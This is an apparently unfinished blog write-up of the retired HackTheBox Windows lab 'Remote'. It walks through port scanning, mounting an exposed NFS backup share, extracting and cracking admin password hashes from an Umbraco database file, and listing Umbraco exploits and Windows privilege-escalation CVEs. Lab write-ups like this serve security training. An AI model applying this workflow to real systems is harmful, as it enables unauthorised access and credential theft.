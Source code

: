 Title:HTB: Remote
Date: xx-21-2020 17:10
category:security
tags:security, boot2root, HTB, windows,
meta:security, boot2root, HTB, windows,

<img class="align-left" src="/media/2020.xx/remote_card.png" alt="Remote card" width="262">

This is a writeup about a retired HacktheBox machine:
[Remote](https://www.hackthebox.eu/home/machines/profile/234) published by
[mrb3n](https://www.hackthebox.eu/home/users/profile/2984) on Mars the 21th 2020.
This box is a Windows machine classified as easy.

<!-- PELICAN_END_SUMMARY -->

# Initial foothold

We start with an nmap scan. 10 ports are open.

    :::text
    # Nmap 7.80 scan initiated Thu Mar 26 10:51:40 2020 as: nmap -sS -oN nmap2 --top-ports=10000 -sV 10.10.10.180
    Nmap scan report for 10.10.10.180
    Host is up (0.30s latency).
    Not shown: 8310 closed ports
    PORT      STATE SERVICE       VERSION
    21/tcp    open  ftp           Microsoft ftpd
    80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    111/tcp   open  rpcbind       2-4 (RPC #100000)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds?
    2049/tcp  open  mountd        1-3 (RPC #100005)
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    49678/tcp open  msrpc         Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu Mar 26 11:02:07 2020 -- 1 IP address (1 host up) scanned in 626.37 seconds

For each port we will look what service is running an how we can enumerate them:
 * Port 21: FTP, **we will dig it more**
 * Port 80: A website, **we will dig it more**
 * Port 111: rpcbind, nothing here
 * Port 135: MS Windows RPC, nothing here
 * Port 139 and 445: SMB, **we will dig it more**
 * Port 2049: NFS, **we will dig it more**
 * Port 5985: some HTTP service but nothing available
 * Port 47001: some HTTP service but nothing available
 * Port 49678: MS Windows RPC, nothing here

## FTP

We try to connect to the FTP using an anonymous connection. At this time (Mars
27th 2020) Firefox still support this protocol. But there is no file available
with the anonymous account.

## SMB

We try to enumerate the SMB share and users using the metasploit modules
`auxiliary/scanner/smb/smb_enumshares` and
`auxiliary/scanner/smb/smb_enumshares` but there is nothing interesting here.

## Web

    :::text
    $ ./ffuf -w /usr/share/dirb/wordlists/big.txt -u http://10.10.10.180/FUZZ -mc 200 -c -v
    <SNIP>
    [Status: 200, Size: 4040, Words: 710, Lines: 96]
    | URL | http://10.10.10.180/umbraco


## NFS

We enumerate the NFS share using the `auxiliary/scanner/nfs/nfsmount` metasploit
module. We found that the share `/site_backups` is exposed.

    :::text
    msf5 > use auxiliary/scanner/nfs/nfsmount
    msf5 auxiliary(scanner/nfs/nfsmount) > set RhOSTS 10.10.10.180
    RhOSTS => 10.10.10.180
    msf5 auxiliary(scanner/nfs/nfsmount) > run

    [+] 10.10.10.180:111      - 10.10.10.180 NFS Export: /site_backups []
    [*] 10.10.10.180:111      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

We mount the share in a temporary folder using `mount`.

    :::text
    $ mkdir /tmp/nfs
    $ mount -t nfs 10.10.10.180:/site_backups /tmp/nfs -nolock
    $ cd /tmp/nfs/
    $ ls
    App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
    $ ls App_Data
    cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf


https://our.umbraco.com/forum/umbraco-8/96468-umbraco-8-database-file

strings ~/pentest/htb_remote/Umbraco.sdf  | less
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

$ john hash -w=tools/password_lists/rockyou.txt
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)

The credentials admin@htb.local:baconandcheese allow us ton connect to the
Umbreco interface.

## Umbreco

    :::text
    $ searchsploit umbraco
    --------------------------------------- ----------------------------------------
    Exploit Title                         |  Path
                                          | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Umbraco CMS - Remote Command Execution | exploits/windows/webapps/19671.rb
    Umbraco CMS 7.12.4 - (Authenticated) R | exploits/aspx/webapps/46153.py
    Umbraco CMS SeoChecker Plugin 1.9.2 -  | exploits/php/webapps/44988.txt
    --------------------------------------- ----------------------------------------
    Shellcodes: No Result
    Papers: No Result


  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
    OS Build Number: 17763
       [!] CVE-2019-0836 : VULNERABLE
        [>] https://exploit-db.com/exploits/46718
        [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

       [!] CVE-2019-0841 : VULNERABLE
        [>] https://github.com/rogue-kdc/CVE-2019-0841
        [>] https://rastamouse.me/tags/cve-2019-0841/

       [!] CVE-2019-1064 : VULNERABLE
        [>] https://www.rythmstick.net/posts/cve-2019-1064/

       [!] CVE-2019-1130 : VULNERABLE
        [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

       [!] CVE-2019-1253 : VULNERABLE
        [>] https://github.com/padovah4ck/CVE-2019-1253

       [!] CVE-2019-1315 : VULNERABLE
        [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

       [!] CVE-2019-1385 : VULNERABLE
        [>] https://www.youtube.com/watch?v=K6gHnr-VkAg

       [!] CVE-2019-1388 : VULNERABLE
        [>] https://github.com/jas502n/CVE-2019-1388

       [!] CVE-2019-1405 : VULNERABLE
        [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/


